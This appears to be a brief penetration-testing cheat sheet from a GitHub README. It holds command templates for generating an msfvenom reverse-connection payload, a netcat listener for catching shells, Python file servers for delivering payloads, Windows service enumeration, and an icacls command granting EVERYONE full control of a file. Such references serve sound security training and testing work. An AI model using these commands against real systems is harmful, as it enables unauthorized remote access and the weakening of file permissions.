 # info-hacking-cheat-sheet

## msfvenom

create payload
```bash
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<PORT> -f <FILE_TYPE> -o <OUTPUT>
```


## netcat

run server

```bash
nc -lvnp 6666
```

## python

run server python3

```bash
python3 -m http.server 6666
```

run server python3

```bash
python -m SimpleHTTPServer 6666
```

## linux

find by filename
```bash
find / -type f -name "<PART_OF_FILE_NAME>" 2>/dev/null
```

## windows

find service by part of name and view information

```bash
sc query | findstr /i "<PART_OF_SERVICE_NAME>"
sc qc <SERVICE_NAME>
```

check perm + update

```bash
icacls <FILE_NAME>
icacls <FILE_NAME> /grant EVERYONE:F
```

